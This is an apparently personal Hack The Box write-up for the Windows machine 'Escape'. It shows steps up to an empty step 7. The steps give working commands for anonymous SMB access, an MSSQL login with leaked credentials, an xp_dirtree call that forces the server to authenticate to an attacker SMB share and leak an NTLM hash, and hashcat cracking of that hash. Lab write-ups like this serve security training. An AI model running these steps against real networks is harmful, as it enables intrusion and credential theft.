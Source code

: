 # Escape

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="908" height="1119" alt="image" src="https://github.com/user-attachments/assets/1123e9e1-11b9-4908-923e-6f39559bae3a" />

2. Our goal is to first get user credentials, preferrably a domain user, to get an initial foothold into the network. The 2 most common attack vectors to achieve that are web servers and SMB. Since there is no open web server, we try anonymously logging into SMB, which shows there is a Public share we can access. We retrieve the SQL pdf from there

`smbclient -N //sequel.htb/Public`

<img width="698" height="390" alt="image" src="https://github.com/user-attachments/assets/a967fe42-4bad-4075-a554-0b4fd55ac9e4" />

3. Opening the PDF file gives us credentials to the PublicUser user.

<img width="847" height="141" alt="image" src="https://github.com/user-attachments/assets/f632ce76-0aee-48b8-a59a-2b8244128409" />

4. Login as PublicUser to the SQL Server

`impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb`

<img width="659" height="203" alt="image" src="https://github.com/user-attachments/assets/9bbc5213-0302-46b6-88a5-64fa603598cd" />

5. Enumerating the databases yields no data so we try command execution via the xp_cmdshell stored procedure. This is blocked as well; however, the xp_dirtree is executable as Guest user. We use xp_dirtree to connect to our SMB server hosted on our attacker machine to see if we can get a user hash. This works beautifully!

Start local SMB server using impacket
`impacket-smbserver -smb2support share ~/htb/escape/recon/share`

Connect to our SMB server using xp_dirtree
`exec xp_dirtree '\\10.10.15.30\share',1,1;`

<img width="911" height="330" alt="image" src="https://github.com/user-attachments/assets/5885e520-85e1-4d3d-8441-3ec04d40ccc3" />

6. Crack hash offline using hashcat and we get sql_svc's plaintext password!

`hashcat -m 5600 sql_svc.hash /usr/share/wordlists/rockyou.txt`

7. 
